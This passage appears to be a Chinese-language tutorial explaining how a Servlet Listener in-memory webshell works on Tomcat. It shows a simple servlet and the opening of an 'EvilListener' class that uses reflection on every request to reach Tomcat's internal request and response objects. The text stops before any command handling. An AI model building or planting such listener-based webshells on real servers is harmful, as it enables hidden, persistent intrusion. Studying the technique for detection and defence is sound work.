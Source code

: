 这里以 Servlet Listener 内存马的原理为例 (使用 ServletRequestListener)

IndexServlet.java

```java
package com.example.learnservlet;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.IOException;
import java.io.PrintWriter;
import java.util.HashMap;
import java.util.Map;

@WebServlet(name = "IndexServlet", value = "/")
public class IndexServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/html");
        PrintWriter pw = response.getWriter();
        pw.write("hello world");
        pw.flush();
    }
}
```

EvilListener.java

```java
package com.example.learnservlet;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.lang.reflect.*;

@WebListener
public class EvilListener implements ServletRequestListener {
    public EvilListener(){

    }
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent sre){
        try {
            RequestFacade rf = (RequestFacade) sre.getServletRequest();
            Field f = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
            f.setAccessible(true);
            Request request = (Request) f.get(rf);
            Response response = request.getResponse();
```